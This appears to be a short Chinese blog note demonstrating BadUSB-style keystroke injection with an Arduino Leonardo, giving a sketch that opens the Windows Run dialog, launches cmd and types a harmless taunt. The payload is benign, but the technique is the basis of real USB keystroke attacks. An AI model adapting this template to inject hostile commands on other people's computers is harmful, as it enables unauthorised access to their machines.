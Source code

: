 # Arduino-Leonardo模拟BadUSB

Arduino Leonardo //小型单片机模拟USB  
貌似Arduino只有这个型号是支持Keyboard操作的  

演示代码如下：  
```c
#include<Keyboard.h>
void setup(){
Keyboard.begin();
delay(1000);
Keyboard.press(KEY_CAPS_LOCK);
delay(500);
Keyboard.press(KEY_LEFT_GUI); //win键
delay(500);
Keyboard.press('r');
delay(500);
Keyboard.release('r');
delay(500);
Keyboard.release(KEY_LEFT_GUI);
delay(500);
Keyboard.println("cmd");
delay(500);
Keyboard.press(KEY_RETURN);
delay(500);
Keyboard.release(KEY_RETURN);
delay(500);
Keyboard.println("i gOT yOU!!!");
delay(500);
Keyboard.release(KEY_CAPS_LOCK);
delay(500);
Keyboard.end();
}

void loop(){}
```

原链接: http://www.freebuf.com/sectool/107242.html#respond  


2016/9/28  
